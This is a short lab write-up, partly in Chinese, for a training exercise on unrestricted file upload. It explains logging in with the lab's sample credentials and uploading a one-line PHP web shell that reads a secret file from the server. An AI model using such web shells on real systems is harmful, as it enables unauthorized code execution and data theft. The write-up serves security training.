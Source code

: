 # Lab: Remote code execution via web shell upload

This lab contains a vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter

## File Upload
* 用 wiener:peter 登入之後，有一個上傳頭像的地方，直接上傳 php 就可以了
* 題目說要讀取 /home/carlos/secret，用 readfile 就可以了
* 最後記得 submit 答案
```
<?php readfile("/home/carlos/secret"); ?>
```